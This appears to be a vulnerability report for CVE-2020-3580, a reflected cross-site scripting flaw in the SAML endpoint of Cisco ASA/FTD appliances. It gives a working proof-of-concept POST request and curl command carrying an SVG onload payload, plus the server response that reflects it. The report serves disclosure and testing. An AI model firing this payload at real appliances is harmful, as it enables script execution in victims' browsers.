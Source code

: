 

# Cross-site Scripting on cisco appliance (CVE-2020-3580)

## Summary

A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct cross-site scripting attacks on a targeted system.


## Affected assets 

$URL

## Steps To Reproduce:
 
 Send POST request as shown below

 1. Using Burp, copy and paste the following request:
```
POST /+CSCOE+/saml/sp/acs?tgname=a HTTP/1.1
Host: REDACTED
User-Agent: Mozilla/5.0 (Windows NT 4.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

SAMLResponse=%22%3E%3Csvg/onload=alert(/kre80r/)%3E
```
1.a Or using curl:
```
# curl -k -v --data "\"SAMLResponse=\"><svg/onload=alert\('kre80r'\)>" "$URL/+CSCOE+/saml/sp/acs?tgname=a"
```


{screenshotid}


2. You will see the alert box willl pop up in the response as seen below
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-store
Pragma: no-cache
Connection: Keep-Alive
Date: Fri, 30 Jul 2021 07:31:46 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 764


<html>
<head>
<script>
function submit_saml() {
    document.cookie = "webvpnlogin=1; path=/; secure";
    document.createElement('form').submit.call(document.getElementById('samlform'));
}
</script>
</head>
<body onload="submit_saml()">
<form id="samlform" action="/+webvpn+/index.html" method="POST">
<input type="hidden" name="tgroup" value="">
<input type="hidden" name="next" value="">
<input type="hidden" name="tgcookieset" value="">
<input type="hidden" name="group_list" value="a">
<input type="hidden" name="username" value="">
<input type="hidden" name="password" value="">
<input type="hidden" name="SAMLResponse" value=""><svg/onload=alert(/kre80r/)>
">
<input type="submit" name="Login" value="Login" style="display:none;">
</form>
</body>
</html>
```

{screenshotid}

## Impact
A successful attack would allow unauthenticated attacker to send  malicious links to Cisco device  users in order to execute javascript commands in the context of the victim’s browser.

### Supporting Material/References:
https://nvd.nist.gov/vuln/detail/CVE-2020-3580
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-xss-multiple-FCB3vPZe


